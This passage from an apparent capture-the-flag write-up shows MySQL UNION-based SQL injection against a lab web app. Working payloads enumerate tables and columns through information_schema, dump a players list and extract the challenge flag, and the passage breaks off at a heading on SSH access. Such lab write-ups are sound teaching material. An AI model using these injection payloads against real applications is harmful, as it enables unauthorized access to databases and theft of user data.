 ```sql
' UNION SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables  WHERE table_schema NOT IN ('mysql', 'information_schema', 'performance_schema', 'sys')#
```

![](/ox-hugo/2025-08-10-103732_.png)
As you can see there are only two non default tables, `flag` &amp; `players`

### Enumerating Column Names In Player &amp; Flag Tables: {#enumerating-column-names-in-player-and-flag-tables}

Again we can use the `GROUP_CONCAT()` function to extract all column names at once.

```sql
' UNION SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name = 'flag'#
```

![](/ox-hugo/2025-08-10-104216_.png)
We can see there is a column called `one`

Let's check the `players` table columns now.

```sql
' UNION SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name = 'players'#
```

![](/ox-hugo/2025-08-10-104315_.png)
We can see this has a single column called `player`

Let's read the contents of these columns.

### Extracting Data From The Database Columns Via Union Injection? {#extracting-data-from-the-database-columns-via-union-injection}

Again we can use the `GROUP_CONCAT()` function to extract all the data from the columns also.

```sql
' UNION SELECT GROUP_CONCAT(player) FROM players#
```

![](/ox-hugo/2025-08-10-152609_.png)
We can see it contains a list of registered players, we will take a note of these for later in case we need them.

Let's check the flag column data now.

```sql
' UNION SELECT GROUP_CONCAT(one) FROM flag#
```

![](/ox-hugo/2025-08-10-152928_.png)
This gives us the flag string for the challenge `UHC{F1rst_5tep_2_Qualify}`

### Getting SSH Access With The Flag String: {#getting-ssh-access-with-the-flag-string}

